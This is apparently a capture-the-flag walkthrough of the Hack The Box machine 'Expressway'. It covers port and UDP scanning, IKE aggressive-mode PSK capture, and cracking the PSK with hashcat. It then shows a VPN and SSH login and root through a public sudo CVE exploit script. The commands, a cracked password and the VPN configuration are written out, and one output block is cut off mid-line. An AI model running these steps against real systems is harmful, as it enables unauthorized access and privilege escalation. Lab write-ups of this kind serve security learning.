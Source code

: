 ```yaml
---
name: Expressway
difficulty: easy
os: linux
platform: htb
date: 2025/09/21
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/75c168f01f04e5f256838733b77f13ec.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:
```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.87 -oN allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
```


Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p22 -sCV 10.10.11.87 -oN targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Debian 8 (protocol 2.0)
```

It seems that there is only SSH port open on TCP. It's version it is quite recent, so we will try enumerating UDP.

We scan the target machine for open UDP ports using Nmap. We will use the `-sU` option to scan UDP ports :
```bash
sudo nmap -p- -sU --min-rate 5000 -vvv -Pn -n 10.10.11.87 -oN allPortsUDP
```
```
PORT    STATE SERVICE
500/udp open  isakmp
```

We use `ike-scan` to enumerate the IKE service on UDP port 500:
```bash
sudo ike-scan -A 10.10.11.87
```
```
Starting ike-scan 1.9.6 with 1 hosts (http://www.nta-monitor.com/tools/ike-scan/)
10.10.11.87	Aggressive Mode Handshake returned 
    HDR=(CKY-R=74ed959da9a03d23) 
    SA=(
        Enc=3DES 
        Hash=SHA1 
        Group=2:modp1024 
        Auth=PSK 
        LifeType=Seconds 
        LifeDuration=28800
    ) 
    KeyExchange(128 bytes) 
    Nonce(32 bytes) 
    ID(Type=ID_USER_FQDN, 
    Value=ike@expressway.htb) 
    VID=09002689dfd6b712 
    (XAUTH) 
    VID=afcad71368a1f1c96b8696fc77570100 (Dead Peer Detection v1.0) 
    Hash(20 bytes)

Ending ike-scan 1.9.6: 1 hosts scanned in 0.053 seconds (18.91 hosts/sec).  1 returned handshake; 0 returned notify
```

We find out the server is using Aggressive Mode with PSK authentication. We also get `ike` which looks like a system user.

We use `-P` option to output the aggressive mode pre-shared key (PSK) parameters for offline cracking  using  the  `psk-crack`  program  that is supplied with ike-scan.
```bash
sudo ike-scan -Ppsk.txt -A 10.10.11.87
```

The output is saved in `psk.txt` file and can be cracked using `psk-crack` or `hashcat` and a wordlist like `rockyou.txt`:
```bash
hashcat -m 5400 psk.txt /usr/share/wordlists/rockyou.txt
```

This will give us the PSK `freakingrockstarontheroad`.

Next, we will connect to the VPN using `strongswan`. First, we need to create a configuration file `/etc/ipsec.conf`:
```bash
config setup
    charondebug="ike 2, knl 2, cfg 2"
    uniqueids=no

conn ikev1
    keyexchange=ikev1
    authby=psk
    ike=aes256-sha1-modp1024!
    esp=aes256-sha1!
    left=%defaultroute
    leftid=ike@expressway.htb
    right=10.10.11.87
    rightid=ike@expressway.htb
    rightsubnet=0.0.0.0/0
    auto=start
```

We also need to add the PSK to `/etc/ipsec.secrets`:
```bash
ike@expressway.htb : PSK "freakingrockstarontheroad"
```
We can now start the VPN connection using `ipsec`:
```bash
sudo ipsec restart
sudo ipsec up ikev1
```
```
initiating IKE_SA ikev1[1] to 10.10.11.87
generating IKE_AUTH request 1 [ IDi N(INITIAL_CONTACT) N(AUTH) N(ADDR) N(MOBIKE_SUP) ]
sending packet: from
<your_ip_address>[500] to

We can now try connecting via SSH using the `ike` user and the PSK as password:
```bash
ssh ike@10.10.11.87
whoami
```
```
ike
```

We have successfully logged in as the `ike` user. Now we can check the home directory for the user flag:
```bash
cat /home/ike/user.txt
```
```
user flag value
```


## Root Exploitation

We check the `sudo` version:
```bash
sudo -V
```
```
Sudo version 1.9.17
```

We look for possible vulnerabilities in this version online and find CVE-2025-32463.

We copy the exploit from https://github.com/pr0v3rbs/CVE-2025-32463_chwoot/

We run the exploit to get a root shell:
```bash
chmod +x sudo_chwoot.sh
./sudo.chwoot.sh
```
```
woot!
```

Now, we have a root shell:
```bash
whoami
cat /root/root.txt
```
```
root
root flag value
```

## Conclusion

We have successfully exploited the Expressway machine and obtained both user and root flags. The key steps involved enumerating the IKE service, cracking the PSK, connecting via VPN, and exploiting a sudo vulnerability to gain root access. 
